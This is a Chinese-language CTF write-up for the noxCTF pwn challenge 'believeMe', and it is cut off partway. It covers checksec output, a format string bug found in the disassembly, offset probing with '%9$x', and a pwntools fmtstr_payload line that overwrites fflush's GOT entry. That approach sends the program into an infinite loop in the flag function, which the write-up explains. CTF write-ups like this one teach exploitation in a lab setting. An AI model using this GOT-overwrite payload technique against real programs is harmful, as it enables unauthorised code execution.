 ```yaml
---
layout: post
title:  "nox_CSAW部分pwn题解"
date:   2018-10-09 18:00:00
categories: WriteUp
tags: WriteUp PWN nox CSAW
---
```


* content
{:toc}

## 前言

暑假的时候遇到了一群一起学习安全的小伙伴，在他们的诱劝下，开始接触国外的CTF比赛，作为最菜的pwn选手就试着先打两场比赛试试水，结果发现国外比赛真有意思哎嘿。

本文首发于安恒网络空间安全讲武堂 http://url.cn/5Abhs


### NOXCTF

#### PWN—believeMe(378)

惯例先走一遍file+checksec检查
```bash
➜  believeMe file believeMe 
believeMe: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=03d2b6bcc0a0fdbab80a9852cab1d201437e7e30, not stripped
➜  believeMe checksec believeMe 
[*] '/home/Ep3ius/pwn/process/noxCTF2018/believeMe/believeMe'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

再简单的运行下程序看看程序是什么样的结构

```bash
➜  believeMe ./believeMe 
Someone told me that pwning makes noxāle...
But......... how ???? 
aaaa
aaaa%  
➜  believeMe
```
然后ida简单分析下，我们可以很直接的看到在main函数里有一个格式化字符串漏洞

```
.text:080487CC ; 10:   printf(s);
.text:080487CC                 sub     esp, 0Ch
.text:080487CF                 lea     eax, [ebp+s]
.text:080487D2                 push    eax             ; format
.text:080487D3                 call    _printf
```

这里我本来以为只是简单的利用格式化字符串去修改fflush_got所以我先测出来fmt的偏移量为9

```bash
➜  believeMe ./believeMe 
Someone told me that pwning makes noxāle...
But......... how ???? 
aaaa%9$x
aaaa61616161%                                                         
➜  believeMe 
```

然后构造payload=fmtstr_payload(9,{fflush_got:noxflag_addr})想直接getflag，然后实际上没那么简单。调试过后发现fmtstr_payload不全，len(payload)输出检查后发现长度超了，稍微查了下pwntools文档的fmtstr部分，发现它默认是以hhn也就是单字节的形式去构造payload，如果以双字节或四字节的形式要加上write_size参数，这样payload的长度就不会超过40
```python
payload = fmtstr_payload(9,{fflush_got:noxFlag_addr},write_size='short')
```

然而当我们成功修改fflush_got为noxFlag的地址时会进入到一个死循环中，我们看一下noxFlag函数里面不难发现问题

```
void __noreturn noxFlag()
{
  char i; // [esp+Bh] [ebp-Dh]
  FILE *stream; // [esp+Ch] [ebp-Ch]

  stream = fopen("flag.txt", "r");
  puts(s);
  fflush(stdout);//这里又调用了fflush函数，由于我们把fflush_got改成了noxFlag地址，这里相当递归调用noxFlag，形成死循环
  if ( stream )
  {
    for ( i = fgetc(stream); i != -1; i = fgetc(stream) )
    {
      putchar(i);
      fflush(stdout);
    }
    fflush(stdout);
    fclose(stream);
  }
  else
  {
    puts("Can't read file \n");
    fflush(stdout);
  }
  exit(0);
}
```

当时就卡在这里没绕出去，经过队友提醒能不能改return地址，才发现思路走偏了